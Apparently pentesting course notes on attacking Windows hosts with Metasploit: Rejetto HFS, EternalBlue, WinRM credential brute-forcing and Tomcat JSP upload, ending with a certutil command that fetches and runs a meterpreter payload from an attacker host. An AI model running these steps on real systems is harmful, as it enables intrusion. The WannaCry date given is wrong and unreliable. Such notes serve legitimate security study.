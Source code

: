 # i - Windows Exploitation

## <mark style="color:red;">Exploiting A Vulnerable HTTP File Server</mark>

* An HTTP File Server (HFS) is a web server that is designed for file & document sharing.
* HTTP File Servers typically run on TCP port 80 and utilize the HTTP protocol for underlying communication.
* Rejetto HFS is a popular free and open source HTTP file server that can be setup on both Windows and Linux.
* Rejetto HFS V2.3 is vulnerable to a remote command execution attack.
* MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.

### **Practical Demonstration**

```bash
msf5 > use exploit/windows/http/rejetto_hfs_exec # Exploit for Rejetto 2.3.
```



## <mark style="color:red;">Exploiting Windows MS17-010 SMB Vulnerability</mark>

* **EternalBlue (MS17-010/CVE-2017-0144)** is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows:
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016
* Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.
* The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit this vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

### **Practical Demonstration**

```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010 # check if the target is vulnerable to EternalBlue.
msf5 > use exploit/windows/smb/ms17_010_eternalblue #Exploit for EternalBlue.
```



## <mark style="color:red;">Exploiting WinRM (Windows Remote Management Protocol)</mark>

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.
* WinRM is typically used in the following ways:
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems on the internet.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port <mark style="color:yellow;">**5985**</mark> and <mark style="color:yellow;">**5986**</mark> (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system.
* We can also utilize an MSF WinRM exploit module to obtain a meterpreter session on the target system.

### **Practical Demonstration**

```bash
msf5 > use auxiliary/scanner/winrm/winrm_auth_methods # Perform WinRM authentication method detection.
msf5 > use auxiliary/scanner/winrm/winrm_login # Perform brute-force attack to obtain legitimate credentials
msf5 > use auxiliary/scanner/winrm/winrm_cmd # Used to perform arbitrary commands using the WinRM service
msf5 > use exploit/windows/winrm/winrm_scipt_exec # Use legitimate credentials to execute a payload and return a meterpreter shell.
msf5 > set FORCE_VBS true
msf5 > run
```



## <mark style="color:red;">Exploiting A Vulnerable Apache Tomcat Web Server</mark>

* Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server.
* It is used to build and host dynamic websites and web applications based on the Java software platform.
* Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients.
* Apache Tomcat runs on TCP port 8080 by default.
* The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
* The Apache Tomcat web server is primarily used to host dynamic websites or web application developed in Java.
* Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.
* We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.

### **Practical Demonstration**

```bash
msf5 > use exploit/multi/http/tomcat_jsp_upload_bypass #Upload a JSP payload onto the target and therefore give us a shell.
msf5 > set payload java/jsp_shell_bind_tcp
msf5 > set SHELL cmd # setting the shell option to cmd prompt for windows.

# for linux.
# When you will click on any of the links in left panel, it will ask to login.
# Now, we have an exploit in msf to get the login credentials:- auxiliary/scanner/http/tomcat_mgr_login
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
msf5 > set RPORT # then run, you get the creds.

# Click on ‘List Applications’ under Manager tab, and you will see there are couple of options to upload the file.
# Now we can try exploiting upload vulnerability on this one, either using the exploit available on msfconsole or creating an exploit using msfvenom.
# Here we have an exploit which can be used for deploying the file on tomcat /manager directory.
# Use use exploit/multi/http/tomcat_mgr_deploy and make sure to set the username and password too for manager along with other options, this will be the one we used to login.
msf5 > use exploit/multi/http/tomcat_mgr_deploy


#Generate a payload, upload it to the target system, setup a listener, execute the payload in order to get a meterpreter shell!.
# using certutil to copy file into the windows target.
cmd > certutil -urlcache -f http://$ip/meterpreter.exe meterpreter.exe
cmd > .\meterpreter.exe # launch the payload file.
```



